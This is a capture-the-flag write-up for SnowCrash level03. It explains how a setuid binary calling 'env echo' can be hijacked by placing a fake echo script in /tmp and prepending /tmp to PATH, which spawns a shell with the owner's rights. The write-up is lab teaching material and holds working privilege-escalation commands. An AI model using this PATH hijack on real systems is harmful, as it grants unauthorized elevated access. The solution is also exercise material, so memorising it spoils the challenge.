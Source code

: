 # Level03

## Research
------------

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

## Solution
-----------

If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:

  - Make a fake echo function
      ```bash
      echo "/bin/bash" > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
      
  - Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
      
  - Change path
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      ``` bash
      export PATH=/tmp:$PATH
      ```
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      We added tmp directory at the start of the path.


```bash
level03@SnowCrash:~$ ./level03
```

You are now flag3 because you "opened" a new shell with the rights of flag03.

You can now launch `getflag` with flag03 rights.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

